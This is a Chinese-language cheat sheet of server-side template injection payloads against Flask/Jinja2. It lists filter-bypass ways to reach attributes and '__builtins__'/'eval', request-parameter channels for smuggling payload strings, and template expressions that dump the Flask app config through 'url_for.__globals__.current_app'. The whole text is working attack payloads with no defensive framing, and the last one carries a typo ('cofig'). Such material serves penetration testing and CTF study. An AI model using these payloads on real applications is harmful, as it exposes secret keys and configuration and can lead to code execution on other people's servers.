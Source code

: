 ### Python字典或列表获取键值或下标的几种方式
```python
dict['__builtins__']

dict.__getitem__('__builtins__')

dict.pop('__builtins__')

dict.get('__builtins__')

dict.setdefault('__builtins__')

list[0]

list.__getitem__(0)

list.pop(0)
```

### SSTI获取对象元素的几种方式
```python
class.attr

class.__getattribute__('attr')

class['attr']

class|attr('attr')

"".__class__.__mro__.__getitem__(2)

['__builtins__'].__getitem__('eval')

class.pop(40)
```

### request旁路注入
```python
request.args.name    #GET name

request.cookies.name #COOKIE name

request.headers.name #HEADER name

request.values.name  #POST or GET Name

request.form.name    #POST NAME

request.json         #Content-Type json
```

### 通过拿到current_app这个对象获取当前flask App的上下文信息来实现config读取
```python
{{url_for.__globals__.current_app.config}}

{{url_for.__globals__['current_app'].config}}

{{get_flashed_messages.__globals__['current_app'].config.}}

{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].cofig}}
```
